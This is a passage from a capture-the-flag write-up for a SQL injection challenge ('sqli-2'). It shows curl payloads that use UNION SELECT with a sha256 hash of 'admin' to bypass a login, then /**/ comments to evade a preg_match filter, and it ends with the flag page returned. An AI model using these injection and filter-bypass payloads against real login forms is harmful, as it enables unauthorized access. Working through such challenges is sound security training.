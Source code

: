 3. Now that we constructed our payload, we will need to give a value to `YOUR_HASH_PASS_HERE`, which will get the `sha256` hash of the `pass` input value, since with our logic, we will be comparing it to its hash. And in order to bypass the `pass` check, they need to be equal :

Here is the hash of the value `admin` in `sha256` (see [This tool](https://emn178.github.io/online-tools/sha256.html) for the hash operation) :

```
8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918
```

And here is the new payload :

```
curl 'http://sqli-2.web-server.challs.ctf.shellmates.club/' -X POST --data "user=whtvr'UNION SELECT 'admin','8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918&pass=admin"
```

4. Finally, in order to make this work, we need to replace the spaces and quotes `'` with other chars in order to bypass the `preg_match()` :

 - For the spaces, one of the techniques is to use empty comments `/**/` instead.
 - For quotes, we have the following code :

```php
...
if (!preg_match("/[0-9a-zA-Z]'[0-9a-zA-Z]/", $str)) {
            return true;
        }
...
```

So, in order to the quote to pass the check, it needs to be surrounded by degits and numbers.


Here is the final payload :

```
curl 'http://sqli-2.web-server.challs.ctf.shellmates.club/' -X POST --data "user=whtvr'UNION/**/SELECT/**/'admin','8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918&pass=admin"
```

As a result, we get the flag :

```html
<!DOCTYPE html>
<html>
<head>
    <title>Mentoring program</title>
</head>
<body>
        <p>Have a flag: shellmates{c0ngr4tul4t10ns_U_d1d_1t!!_fe4cd84591ea}<p>
        <!-- <a href="/?pls_help">get some help</a> -->
</body>
</html>
```


**Note :** note that if you don't replace the `YOUR_HASH_PASS_HERE` by the hash if your password how you actually bypasses the regex and `user query`, bu not the `pass query`

